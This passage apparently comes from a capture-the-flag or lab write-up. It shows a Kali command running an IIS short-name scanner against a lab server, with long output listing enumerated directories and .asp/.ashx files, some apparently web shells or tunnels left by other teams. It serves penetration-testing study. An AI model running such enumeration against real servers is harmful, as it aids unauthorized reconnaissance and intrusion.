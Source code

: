 ```
[+] Directory /ds_sto~1	[Done]
[+] /arkant~1.a*	[scan in progress]
[+] /snado_~1.*	[scan in progress]
[+] /templa~1	[scan in progress]
[+] Directory /templa~1	[Done]
[+] /trashe~1	[scan in progress]
[+] Directory /trashe~1	[Done]
[+] /newfol~1	[scan in progress]
[+] Directory /newfol~1	[Done]
[+] /puppa2~1.a*	[scan in progress]
[+] /tunnel~1.a*	[scan in progress]
[+] /arkant~1.as*	[scan in progress]
[+] /snado_~1.t*	[scan in progress]
[+] /puppa2~1.as*	[scan in progress]
[+] /tunnel~1.as*	[scan in progress]
[+] /arkant~1.asp*	[scan in progress]
[+] File /arkant~1.asp*	[Done]
[+] /snado_~1.tx*	[scan in progress]
[+] /puppa2~1.asp*	[scan in progress]
[+] File /puppa2~1.asp*	[Done]
[+] /tunnel~1.ash*	[scan in progress]
[+] File /tunnel~1.ash*	[Done]
[+] /tunnel~1.asp*	[scan in progress]
[+] File /tunnel~1.asp*	[Done]
[+] /snado_~1.txt*	[scan in progress]
[+] File /snado_~1.txt*	[Done]
----------------------------------------------------------------
Dir:  /ds_sto~1
Dir:  /templa~1
Dir:  /trashe~1
Dir:  /newfol~1
File: /arkant~1.asp*
File: /puppa2~1.asp*
File: /tunnel~1.ash*
File: /tunnel~1.asp*
File: /snado_~1.txt*
----------------------------------------------------------------
4 Directories, 5 Files found in total
Note that * is a wildcard, matches any character zero or more times.
```

Nothing interesting in the main directory. The .asp files are leftover from other teams.

Let's check those folders we found with the ds_store scanner:

```
root@kali:~/IIS_shortname_Scanner# python iis_shortname_Scan.py http://10.13.38.11/dev/dca66d38fd916317687e1390a420c3fc
Server is vulnerable, please wait, scanning...
[+] /dev/dca66d38fd916317687e1390a420c3fc/p~1.*	[scan in progress]
[+] /dev/dca66d38fd916317687e1390a420c3fc/d~1.*	[scan in progress]
[+] /dev/dca66d38fd916317687e1390a420c3fc/ds~1.*	[scan in progress]
[+] /dev/dca66d38fd916317687e1390a420c3fc/pu~1.*	[scan in progress]
[+] /dev/dca66d38fd916317687e1390a420c3fc/pup~1.*	[scan in progress]
[+] /dev/dca66d38fd916317687e1390a420c3fc/ds_~1.*	[scan in progress]
[+] /dev/dca66d38fd916317687e1390a420c3fc/pupp~1.*	[scan in progress]
[+] /dev/dca66d38fd916317687e1390a420c3fc/ds_s~1.*	[scan in progress]
[+] /dev/dca66d38fd916317687e1390a420c3fc/puppa~1.*	[scan in progress]
[+] /dev/dca66d38fd916317687e1390a420c3fc/ds_st~1.*	[scan in progress]
[+] /dev/dca66d38fd916317687e1390a420c3fc/ds_sto~1.*	[scan in progress]
[+] /dev/dca66d38fd916317687e1390a420c3fc/ds_sto~1	[scan in progress]
[+] Directory /dev/dca66d38fd916317687e1390a420c3fc/ds_sto~1	[Done]
----------------------------------------------------------------
Dir:  /dev/dca66d38fd916317687e1390a420c3fc/ds_sto~1
```